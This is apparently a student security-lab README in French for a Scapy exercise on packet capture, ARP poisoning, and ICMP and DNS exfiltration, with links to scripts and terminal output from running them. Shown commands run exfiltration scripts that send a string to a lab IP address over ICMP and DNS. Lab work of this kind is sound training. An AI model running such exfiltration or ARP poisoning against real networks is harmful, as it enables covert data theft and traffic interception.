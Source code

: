 # TP4 SECU : Exfiltration


# Sommaire

- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)



# I. Getting started Scapy


🌞 **`ping.py`**

[ping.py](./script/ping.py)


🌞 **`tcp_cap.py`**

[tcp_cap.py](./script/tcp_cap.py)

```bash
nico@debian:~/Documents/Resaux-B2/Tp4$ tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 216.58.214.78
- Adresse IP dest : 10.33.73.226
- Port TCP src : 443
- Port TCP dst : 52260
```

🌞 **`dns_cap.py`**

```bash
nico@debian:~/Documents/Resaux-B2$ sudo /bin/python3 /home/nico/Documents/Resaux-B2/Tp4/dns_cap.py
[sudo] password for nico: 
DNS Answer 172.67.74.226
DNS Answer 104.26.11.233
DNS Answer 104.26.10.233
```


[dns_cap.py](./script/dns_cap.py)

🌞 **`dns_lookup.py`**

```bash
nico@debian:~/Documents/Resaux-B2$ sudo /bin/python3 /home/nico/Documents/Resaux-B2/Tp4/dns_lookup.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
L'une des ip de ynov.com est: 104.26.11.233
```

[dns_lookup.py](./script/dns_lookup.py)

# II. ARP Poisoning


🌞 **`arp_poisoning.py`**

[arp_poisoning.py](./script/arp_poisoning.py)

# II. Exfiltration ICMP


🌞 **`icmp_exf_send.py`**

```bash
nico@debian:~/Documents/Resaux-B2$ sudo /bin/python3 /home/nico/Documents/Resaux-B2/Tp4/icmp_exf_send.py 10.33.67.174 j
.
Sent 1 packets.
```

[icmp_exf_send.py](./script/icmp_exf_send.py) 
[le packet capturé par wireshark](./wireshark/packet_icmp.pcapng)

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

```bash
nico@debian:~/Documents/Resaux-B2$ sudo /bin/python3 /home/nico/Documents/Resaux-B2/Tp4/dns_exfiltration_send.py 10.33.67.174 voici_une_string_de_plus_de_20_caracteres
.
Sent 1 packets.
```

[dns_exfiltration_send.py](./script/script/dns_exfiltration_send.py) 

[la capture du packet dns avec wireshark](./wireshark/packet-dns.pcapng)
